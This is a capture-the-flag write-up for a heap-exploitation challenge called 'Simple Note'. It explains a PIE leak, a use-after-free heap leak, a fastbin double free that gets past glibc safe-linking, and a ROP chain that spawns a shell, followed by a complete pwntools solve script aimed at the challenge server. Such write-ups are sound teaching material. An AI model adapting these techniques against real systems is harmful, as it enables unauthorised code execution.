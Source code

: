 # Simple Note

author: kuvee
points: 4566

the checksec output:
```
  Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
```

On inspecting the decompilation, we notice:
- We have Use after Free (UAF)
- The pointers are being stored in global array, and we can only have 6 allocations
- allocation is done using calloc() instead of main(), why does this matter? calloc zeroes out space on allocation and the algorithm slightly differs from malloc, so it will be more oriented toward fast-bin attack
- There's a peculiar function on input 9999, which gives a very nice leak
```
Note: something very interesting to see is, if your allocation bin's size has `IS_MMAPED` flag set, then calloc wont zero out its region because it's alrigth zero-ed out from mmap
```
```c
unsigned __int64 sub_193C()
{
  void *v1; // [rsp+8h] [rbp-68h] BYREF
  char s[88]; // [rsp+10h] [rbp-60h] BYREF
  unsigned __int64 v3; // [rsp+68h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = &unk_4060;
  puts("enter your name: ");
  fgets(s, 80, stdin);
  puts("enter your age: ");
  __isoc99_scanf("%ld", &v1);
  getchar();
  printf("your age: %ld and name: %s\n", v1, s);
  puts("but ... why you here???");
  return v3 - __readfsqword(0x28u);
}
```

When we are doing scanf on `v1` there's no check if it's being taken properly, so if you just give newline, it will print the address of `v1` in the printf line which just happens to be pointer in bss area, awesome.

The main idea behind the exploitation is to first get a heap leak to defeat [safe-link](https://ir0nstone.gitbook.io/notes/binexp/heap/safe-linking) and perform some attack on fastbins to make it return arbitrary pointer,
we want it to be in the BSS area where the array storing the pointers is present, there we can write our own pointers and read/write.

So lets start

- get the pie leak
    ```python
        r.sendlineafter(b'>',b'9999')
        r.sendlineafter(b':',b'a')
        r.sendlineafter(b':',b'aaaaaa')
        r.recvuntil(b'age:')
        exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060
        print(hex(exe.address))
    ```

- get the heap leak
    ```python
        malloc(0x43,b'aaaa')
        free(0)
        heap_leek = unpack(show(0),'all')
    ```
- fill up the tcache without allocating them on pointer array
    ```python
    for i in range(7):
            malloc(0x33,b'')
    ```
    this works because on invalid input like just a '\n' it frees the area and makes the pointer in pointer array NULL


- Now we perform double-free on the fastbin and then change the next pointer to get a controlled pointer in bss area (similar to tcache poinsoning)
    ```python
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')
    ```
    read this for the [fastbin double free](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/fastbin_dup.c)
    
    It's important to note that my first alloc was 0x43, which is the size that gets stored in the array, this will be acting as the fake fastbin available for use, it's `IS_MMAPED` and `PREV_INUSE` flag will be set due 0x3 (0x2|0x1)
    the allocations after that are 0x33, because allocation algorithm will perform a check on the fastbin size to detect for corruption, 0x33 allocation would go to a bin with 0x40 as size.

- Now we have control over the pointer array with our latest allocation! i'll be leaking the libc and stack address now, by making use of stdout/stdin/stderror file struct pointer in BSS area
    ```python
    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    ```
    the `environ` symbol in libc contains stack addresses, and `exe.address+0x4020` had one of the file struct pointers in libc

- Now i just do rop
    ```python
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    ```

and finally get the shell


The solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chall_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.terminal =['alacritty','-e','bash','-c']


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("pwn.blitzhack.xyz",4566)
        context.noptrace=True

    return r


def main():
    r = conn()

    # good luck pwning :)
    r.sendlineafter(b'>',b'9999')
    r.sendlineafter(b':',b'a')
    r.sendlineafter(b':',b'aaaaaa')
    r.recvuntil(b'age:')
    exe.address = int(r.recvline().split(b" ")[1].decode())-0x4060

    print(hex(exe.address))
    def malloc(sz,pl):
        r.sendlineafter(b'>',b'1')
        r.sendlineafter(b':',str(sz).encode())
        r.sendlineafter(b':',pl)

    def edit(idx,pl):
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'2')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.sendlineafter(b':',pl)

    def show(idx):
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'3')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())
        r.recvuntil(b': "')
        return r.recvline().strip()[:-1]

    def free(idx):
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',b'0')
        l = int(r.recvline().split(b" ")[-1].decode())
        r.sendlineafter(b'>',b'4')
        r.sendlineafter(b':',str(idx).encode())
        r.sendlineafter(b':',str(l).encode())

    malloc(0x43,b'aaaa')
    free(0)
    heap_leek = unpack(show(0),'all')
    for i in range(7):
        malloc(0x33,b'')
    print(hex(heap_leek<<12))
    malloc(0x33,b'a')
    malloc(0x33,b'b')
    malloc(0x33,b'a')
    free(1)
    free(2)
    free(1)
    st  = (exe.address+0x4080)^(heap_leek)
    edit(1,p64(st))
    malloc(0x33,b'a')
    malloc(0x33,b'a')

    edit(5,p64(exe.address+0x4020))
    libc.address = unpack(show(0),'all')-0x2045c0
    edit(5,p64(libc.sym['environ']))
    stack = unpack(show(0),'all')
    print(hex(libc.address))
    print(hex(stack))
    gdb.attach(r)
    rip = stack-0x150
    edit(5,p64(rip))
    pop_rdi = p64(libc.address+0x10f75b)
    ret = p64(libc.address+0x10f75b+1)
    rop = pop_rdi+p64(next(libc.search(b'/bin/sh'))) + ret+p64(libc.sym.system)
    edit(0,rop)
    r.interactive()


if __name__ == "__main__":
    main()
```

